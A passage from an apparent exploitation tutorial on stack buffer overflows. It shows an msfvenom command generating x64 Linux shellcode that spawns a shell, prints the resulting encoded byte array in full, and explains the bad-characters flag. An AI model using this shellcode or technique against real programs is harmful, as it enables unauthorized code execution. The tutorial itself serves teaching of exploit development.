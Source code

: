 We have succesfully overwrote the return address.

* # Injecting a Shell Code<br>

What is the point of chaning the address of the instruction pointer? To be able to run our own instructions
of course. Shell code is a set of machine code instructions which spawns a shell for us. Let's create one
with **msfvenom** framework.

{% highlight shell %}
msfvenom -p linux/x64/exec --platform linux -f c -b '\x00\x09\x0a\x20'

[-] No arch selected, selecting arch: x64 from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=9, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 63 (iteration=0)
x64/xor chosen with final size 63
Payload size: 63 bytes
Final size of c file: 291 bytes
unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\x3f\x5d\x0c\x3b\x1c\x04\x8d\x1e\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x77\xe5\x23"
"\x59\x75\x6a\xa2\x6d\x57\x5d\x95\x6b\x48\x5b\xdf\x40\x55"
"\x66\x54\x34\x19\x04\x8d\x1e";

{% endhighlight %}

| Parameter              | Functionality                                              | 
|:-----------------------|:-----------------------------------------------------------|
|-p                      | Stands for payload, we want to spawn a /bin/sh shell.      |
|--platform              | Declaring the platform is linux.                           |
|-f                      | Stands for format. We want our shellcode in the C syntax.   |
|-b                      | Declaring the bad characters.                              |

Parameters above are obvious. However, I want you to notice the **-b** flag. We have excluded some characters 
to be generated in our shellcode.

* ## Bad chars<br>

Bad chars also called invalid characters. When they are received by the program, they 
are being filtered and replaced with other values. Eventually makes our generated 
shell code useless. There is no universal set of bad characters. Depending on the application and the developer logic there 
is a different set of bad characters for every binary that we would encounter.
Therefore, it is a must to find out the bad characters in every executable before generating the shell code.
In our case '\x00\x09\x0a\x20' are the bad chars. You can read how to find bad chars here.


* # Vulnerable Program<br>
